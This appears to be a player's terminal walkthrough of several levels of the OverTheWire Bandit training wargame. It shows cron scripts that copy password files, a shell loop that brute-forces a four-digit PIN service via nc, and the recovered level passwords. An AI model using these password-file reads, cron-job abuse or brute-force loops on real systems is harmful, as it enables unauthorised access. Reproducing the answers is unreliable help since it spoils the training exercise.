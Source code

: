 myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget

[bandit22@bandit:/tmp$] echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349

[bandit22@bandit:/tmp$] cat 8ca319486bfbbc3663ea0fbe81326349
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

# [bandit23:QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G]
[bandit23@bandit:~$] cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

[bandit23@bandit:~$]


# [bandit24:VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar]
[bandit24@bandit:/tmp/.z$] nano ./b25pass.sh
	#!/bin/bash
	
	for i in {0000..9999}
	do
	        echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i >> possibilities.txt
	done
	
	cat possibilities.txt | nc localhost 30002 > result.txt
	cat result.txt | grep -v "Wrong!"

[bandit24@bandit:/tmp/.z$] ./b25pass.sh
	I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
	Correct!
	The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

# [bandit25:p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d]

# [bandit26:c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1]

# [bandit27:YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS]
